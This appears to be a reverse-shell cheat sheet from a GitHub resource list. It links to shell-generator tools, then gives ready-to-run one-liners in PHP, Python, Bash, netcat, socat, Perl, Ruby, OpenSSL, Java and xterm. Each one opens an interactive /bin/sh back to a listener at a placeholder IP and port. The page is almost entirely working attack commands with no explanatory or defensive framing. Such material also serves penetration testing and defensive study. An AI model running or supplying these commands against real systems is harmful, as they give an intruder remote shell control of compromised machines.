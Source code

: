 # Reverse Shell 

- ## [hershell](https://github.com/lesnuages/hershell): Multiplatform reverse shell generator
  > Simple TCP reverse shell written in Go. <br>
  > It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception. <br>
- ## [shellver](https://github.com/0xR0/shellver): Reverse Shell Cheat Sheet TooL
  > ![image](https://user-images.githubusercontent.com/51442719/173379148-40c7588e-c1e6-495d-bf24-637ffe32fa81.png)

## Php :
```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Bash :

```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

## Netcat :

```
nc -e /bin/sh 192.168.0.5 4444
```

## Socat :

```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

## Perl :

```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby :

```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## OpenSSL:

On your machine (to receive, not a normal TCP connection)
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes # generate some arbitrary cert
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

On PWN'd client
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.5:4444 > /tmp/s; rm /tmp/s
```

## Java :

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/192.168.0.5/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## xterm :

```
xterm -display 192.168.0.5:4444
```

---

- ## [reverse-shell-cheatsheet](https://github.com/security-cheatsheet/reverse-shell-cheatsheet)
